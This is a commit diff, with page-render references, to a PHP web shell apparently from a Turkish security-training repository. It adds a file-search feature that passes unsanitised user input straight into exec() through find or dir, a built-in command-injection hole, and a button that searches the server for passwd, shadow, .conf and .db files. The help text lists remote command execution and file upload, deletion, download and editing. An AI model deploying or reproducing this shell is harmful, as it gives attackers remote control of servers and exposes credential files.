

Before and after one commit to mehmet-selcuk-duz/Yavuzlar, a PHP site: page /shell.php in a window 1280 px wide. Shown: the top 787 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update shell.php

```diff
--- a/Web Shell/shell.php
+++ b/Web Shell/shell.php
@@ -85,6 +85,48 @@
             document.getElementById('icerik').value = `".htmlspecialchars($icerik). "`;
         });
     </script>";
+}
+function is_windows() {
+    return strtoupper(substr(PHP_OS, 0, 3)) === 'WIN';
+}
+
+if (isset($_POST['arama'])) {
+    $aranan = $_POST['aranan'];
+    $sonuclar = [];
+
+    if (is_windows()) {
+        $komut = "dir /S /B *$aranan* 2>NUL";
+    } else {
+        $komut = "find / -name *$aranan* 2>/dev/null";
+    }
+
+    exec($komut, $sonuclar);
+
+    if (!empty($sonuclar)) {
+        echo implode('<br>', array_map('htmlspecialchars', $sonuclar));
+    } else {
+        echo 'Hiçbir dosya veya klasör bulunamadı.';
+    }
+    exit;
+}
+
+if (isset($_POST['config_bul'])) {
+    $sonuclar = [];
+
+    if (is_windows()) {
+        $komut = "dir /S /B *passwd* *shadow* *.conf* *.db* 2>NUL";
+    } else {
+        $komut = "find /etc / -name '*.conf' -o -name '*.db' -o -name 'passwd' -o -name 'shadow' 2>/dev/null";
+    }
+
+    exec($komut, $sonuclar);
+
+    if (!empty($sonuclar)) {
+        echo implode('<br>', array_map('htmlspecialchars', $sonuclar));
+    } else {
+        echo 'Hiçbir konfigürasyon dosyası bulunamadı.';
+    }
+    exit;
 }
 
 function dizinListele($dizin) {
@@ -281,17 +323,43 @@
             <?php endforeach; ?>
         </div>
 
+        <h3>Dosya Arama</h3>
+        <form id="aramaForm">
+            <input type="text" name="aranan" id="aranan" placeholder="Aranacak dosya veya klasör adı" />
+            <button type="button" class="btn" onclick="dosyaAra()">Ara</button>
+        </form>
+
+        <h3>Konfigürasyon Dosyası Tespiti</h3>
+        <form id="configForm">
+            <button type="button" class="btn" onclick="configBul()">Konfigürasyon Dosyalarını Bul</button>
+        </form>
+
+        <div id="aramaPopup" class="popup">
+            <h2>Arama Sonuçları</h2>
+            <div id="aramaSonuclari"></div><br>
+            <button onclick="aramaKapat()">Kapat</button>
+        </div>
+
+        <div id="configPopup" class="popup">
+            <h2>Konfigürasyon Dosyaları</h2>
+            <div id="configSonuclari"></div><br>
+            <button onclick="configKapat()">Kapat</button>
+        </div>
+
         <button class="yardim_buton" onclick="yardimAc()">Yardım</button>
 
         <div id="yardimPopup" class="popup">
             <h2>Yardım</h2>
             <p>Bu shell ile şunları yapabilirsiniz:</p>
             <ul>
-                <li>Komutlar çalıştırabilirsiniz.</li>
-                <li>Dosyalar yükleyebilirsiniz.</li>
-                <li>Klasörler oluşturabilirsiniz.</li>
-                <li>Dosyaları silebilir, düzenleyebilir ve yeniden adlandırabilirsiniz.</li>
-                <li>Üst dizine çıkmak için .. bağlantısına tıklayabilirsiniz.</li>
+                <li><strong>Komut çalıştırma:</strong> Shell komutlarını çalıştırmak için komut girin ve "Çalıştır" tuşuna basın.</li>
+                <li><strong>Dosya Yükleme:</strong> Bir dosya seçin ve yükleyin. Dosya sunucuya yüklenecektir.</li>
+                <li><strong>Klasör oluşturma:</strong> Yeni bir klasör oluşturmak için klasör adını girin ve "Oluştur" tuşuna basın.</li>
+                <li><strong>Dosya Silme:</strong> Dosyaları listede "Sil" butonuna tıklayarak silebilirsiniz.</li>
+                <li><strong>Dosya İndirme:</strong> Dosyaları indirmek için "İndir" butonuna basın.</li>
+                <li><strong>Dosya Düzenleme:</strong> Dosyaları düzenlemek için "Düzenle" butonuna tıklayın ve dosyanın içeriğini güncelleyin.</li>
+                <li><strong>Dosya Arama:</strong> Bir dosya adı girin ve sunucuda o dosyayı arayın.</li>
+                <li><strong>Konfigürasyon Dosyası Tespiti:</strong> Sistem konfigürasyon dosyalarını bulmak için "Konfigürasyon Dosyalarını Bul" butonunu kullanın.</li>
             </ul>
             <button onclick="yardimKapat()">Kapat</button>
         </div>
@@ -357,5 +425,52 @@
         function duzenlemeKapat() {
             document.getElementById("duzenlemePopup").style.display = "none";
         }
+
+        function aramaKapat() {
+            document.getElementById("aramaPopup").style.display = "none";
+        }
+
+        function configKapat() {
+            document.getElementById("configPopup").style.display = "none";
+        }
+        function popupGoster(id) {
+            document.getElementById(id).style.display = 'block';
+        }
+
+        function popupKapat(id) {
+            document.getElementById(id).style.display = 'none';
+        }
+
+        function dosyaAra() {
+            var aranan = document.getElementById('aranan').value;
+            var formData = new FormData();
+            formData.append('arama', true);
+            formData.append('aranan', aranan);
+
+            fetch('', {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => response.text())
+            .then(data => {
+                document.getElementById('aramaSonuclari').innerHTML = data;
+                popupGoster('aramaPopup');
+            });
+        }
+
+        function configBul() {
+            var formData = new FormData();
+            formData.append('config_bul', true);
+
+            fetch('', {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => response.text())
+            .then(data => {
+                document.getElementById('configSonuclari').innerHTML = data;
+                popupGoster('configPopup');
+            });
+        }
     </script>
 </html>
```
